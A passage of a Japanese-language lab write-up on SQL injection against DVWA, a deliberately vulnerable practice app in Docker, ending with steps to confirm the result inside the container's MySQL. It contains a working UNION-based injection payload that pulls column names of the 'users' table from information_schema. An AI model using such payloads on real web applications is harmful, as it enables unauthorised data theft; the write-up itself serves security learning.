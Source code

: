 続いて、
```
' union select table_name,column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' #
```
でusersテーブルの全カラムが取得できます。
![sql](sql.png)

#### 答え合わせのためrmysqlを起動
別ターミナルでdockerのコンテナ環境に入る（コンテナが起動している必要がある）
docker exec -it silly_kalam(コンテナ名) bash
コンテナから抜ける
exit 

そのまま　コンテナ内で
mysql -u root -p
でmysqlにログイン。パス入れずに。
show databasesで一覧が取得。dvwaが対象のデータベースと思われる。
use database名;で該当dbを選択。今回は use dvwaを選択。
show tables;で現在いるdbのテーブルを取得。
guestbookとuserテーブルが取得できます。


show full columns from users;　またはguestbook でテーブル一覧が取得。テーブル名が一致していることが確認できました。
sqlインジェクションによりテーブル情報が取得できている状態です。
